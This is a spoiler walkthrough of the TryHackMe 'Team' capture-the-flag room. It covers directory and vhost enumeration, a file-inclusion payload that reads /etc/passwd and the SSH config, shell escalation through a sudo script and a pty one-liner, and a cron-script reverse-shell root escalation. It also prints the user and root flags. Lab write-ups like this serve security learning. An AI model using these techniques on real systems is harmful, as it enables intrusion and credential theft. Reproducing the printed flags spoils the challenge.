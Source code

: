 # Team CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Team** CTF challenge on [TryHackMe](https://tryhackme.com/r/room/teamcw). 
---
Using nmap to find open ports

![nmap](imgs/nmap.png "nmap")

Open ports `21 ftp`,`22 ssh` and `80 http`

Using gobuster to find directories

```
gobuster dir -w /snap/seclists/current/Discovery/Web-Content/common.txt -u http://10.10.130.165   
```
No interesting directories

Adding team.thm to /etc/hosts

Using gobuster again

```
gobuster dir -w /snap/seclists/current/Discovery/Web-Content/common.txt -u http://team.thm
```

Gobuster found `robots.txt` with `dale` string 

Using ffuf to enumerate vhosts

```
ffuf -w /snap/seclists/current/Discovery/DNS/subdomains-top1million-20000.txt -u http://team.thm/ -H "Host: FUZZ.team.thm" -fs 11366
```

Editing /etc/hosts again

dev.team.thm webpage



Possible file inclusion, changing URL to /etc/passwd as example


```
http://dev.team.thm/script.php?page=/etc/passwd
```
notable users `dale` and `gyles`

I tried diffrent common configuration files for FTP and SSH and found Dale `openSSH private key`

```
http://dev.team.thm/script.php?page=/etc/ssh/sshd_config
```

Login to ssh with a private key as dale, remember to `chmod 600` key

> [!IMPORTANT]
> User flag from `user.txt`: `THM{6Y0TXHz7c2d}`

now we can do

```
sudo -u gyles /home/gyles/admin_checks
```
We can exploit this file, in first input we can type anything, but in second we can type `bash` to spawn a shell as gyles, then we can use python3 to stabilize shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
In /opt there is interesting folder `admin_stuff` that contains `script.sh`

Now i check those files mentioned in script.sh

The main_backup.sh is writeable and executes as root

Now i edit main_backup to generate reverse shell as root, the script is run by cronjob every minute. **This privilage escalation stage could be done in various ways. **

> [!IMPORTANT]
> Root flag from `root.txt`: `THM{fhqbznavfonq}`

# MACHINE PWNED
